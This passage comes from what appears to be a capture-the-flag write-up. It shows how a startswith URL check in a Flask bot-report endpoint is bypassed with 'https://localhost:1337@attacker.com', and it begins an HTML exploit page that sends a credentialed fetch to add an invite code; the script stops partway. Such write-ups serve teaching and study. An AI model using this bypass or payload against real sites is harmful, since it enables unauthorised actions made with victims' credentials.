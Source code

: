 ![alt text](/assets/img/cors.png)

As you can see, the CORS is blocked but payload still send, but
```py
@api_blueprint.post("/report")
@cross_origin(origins="*", supports_credentials=True)
def report_broken_link():
   data = request.get_json()
   url = data.get("url")
   ip = request.remote_addr
   if ip in active_visits:
       return jsonify({"success": False, "message": "Bot is already processing a URL for your IP. Please wait until it finishes."}), 429  
   if not url or not (url.startswith("https://localhost:1337") or url.startswith("https://127.0.0.1:1337")):
       return jsonify({"success": False, "message": "Invalid URL."}), 400
   active_visits.add(ip)
   threading.Thread(target=visit_url, args=(url, ip), daemon=True).start()
   return jsonify({"success": True, "message": "Bot is visiting your URL."})
```

Url must start with https://localhost:1337, The intention is to only allow URLs that point to:
- https://localhost:1337
- https://127.0.0.1:1337

`https://localhost:1337@attacker.com`
This passes the startswith("https://localhost:1337") check, because it begins with that string. But in reality, the full domain is: https://attacker.com
Here the exploit to obtain invitation_code
```html
<html>
   <script>
       function sleep(ms) {
          return new Promise(resolve => setTimeout(resolve, ms));
       }
           try{   
               fetch("https://127.0.0.1:1337/api/add-invite-code",
                   {
                       method:"POST",
                       credentials: "include",
                       body: JSON.stringify({username: "bengsky"})
                   }
```